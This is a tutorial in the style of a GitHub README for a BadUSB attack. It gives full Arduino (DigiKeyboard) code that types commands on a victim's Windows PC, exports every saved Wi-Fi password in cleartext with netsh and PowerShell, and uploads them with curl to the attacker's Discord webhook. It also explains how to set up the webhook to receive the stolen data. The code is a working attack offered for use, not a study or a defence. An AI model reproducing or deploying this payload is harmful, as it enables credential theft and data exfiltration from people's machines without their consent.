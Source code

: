 ## GRAB AND SEND WIFI PASSWORDS TO YOUR DISCORD CHANNEL

#### STEP 1:
1.Create a Discord Server/Channel

2.<img width="190" alt="image" src="https://user-images.githubusercontent.com/42895491/195396479-791a9c55-8cce-4035-9ed6-fddf79630f7f.png">
go to the edit channel option.

3.<img width="207" alt="image" src="https://user-images.githubusercontent.com/42895491/195396622-ef4c814b-2266-43e7-a9cc-673aa92c49bd.png">
go to integrations.

4.<img width="219" alt="image" src="https://user-images.githubusercontent.com/42895491/195396833-4db55a94-ee94-4f6c-b58b-b6adea0eea8b.png">
create a new web hook.

5.<img width="493" alt="image" src="https://user-images.githubusercontent.com/42895491/195396911-577f9009-e8a0-40fa-8b22-8c698d072e51.png">
copy the web hook url.

#### STEP 2:
<img width="529" alt="image" src="https://user-images.githubusercontent.com/42895491/195396138-5582d418-d9c5-4d3e-820a-19bf4c447756.png">
change the "FILENAME" to anyname you want your folder to be.

Also Edit the line number 16 in the Arduino code and insert the following details (* most important Webhook url)

DigiKeyboard.println("curl -i -H \"Expect:application/json\" -F file=@wifi -F \"payload_json={\\\"wait\\\":true,\\\"content\\\":\\\"ANYCOMMENT\\\",\\\"ANYNAME\\\":\\\"passwords\\\"}\" WEBHOOK_URL"); //curl command which is used to send the passwords to your discord channel/server (**Change replace "WEBHOOK_URL" with your discord's webhook url of any channel.

  
  #### Example:
  
                        #include "DigiKeyboard.h"
                        void setup() {
                        pinMode(1, OUTPUT); //LED on Model A
                        }
                        void loop() {
                        DigiKeyboard.update();
                        DigiKeyboard.sendKeyStroke(0);
                        DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
                        DigiKeyboard.delay(300);
                        DigiKeyboard.println("cmd");
                        DigiKeyboard.delay(500);
                        DigiKeyboard.println("netsh wlan export profile key=clear");
                        DigiKeyboard.delay(500);
                        DigiKeyboard.println("powershell Select-String -Path Wi-Fi-* -Pattern 'keyMaterial' > wifi");
                        DigiKeyboard.delay(500);
                        DigiKeyboard.println("curl -i -H \"Expect:application/json\" -F file=@wifi -F \"payload_json=   {\\\"wait\\\":true,\\\"content\\\":\\\"Ashfaque\\\",\\\"ANYNAME\\\":\\\"passwords\\\"}\" https://discord.com/api/webhooks/996103446740619284/"); // this is a dummy webhook url.
                        DigiKeyboard.delay(500);
                        DigiKeyboard.println("exit");
                        digitalWrite(1, HIGH); //led on
                        DigiKeyboard.delay(90000);
                        }
  
  ### Your are all set to upload the code.

